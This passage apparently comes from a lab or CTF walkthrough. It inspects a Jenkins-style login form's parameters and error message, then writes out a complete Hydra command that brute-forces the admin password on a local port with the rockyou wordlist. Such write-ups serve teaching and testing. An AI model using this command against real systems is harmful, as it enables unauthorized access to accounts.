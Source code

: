 
Next, from the form data of the request, we see that four parameters are sent: **j_username**, **j_password**, **from** and **Submit**.

<img style="float: left;" src="screenshots/screenshot27.png">

Lastly, we see that the error message upon providing incorrect credentials is: **Invalid username or password**

<br>

 With these information, we can craft out our Hydra command:

```
hydra -s 9999 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -V
```

**Results:**

<img style="float: left;" src="screenshots/screenshot28.png">
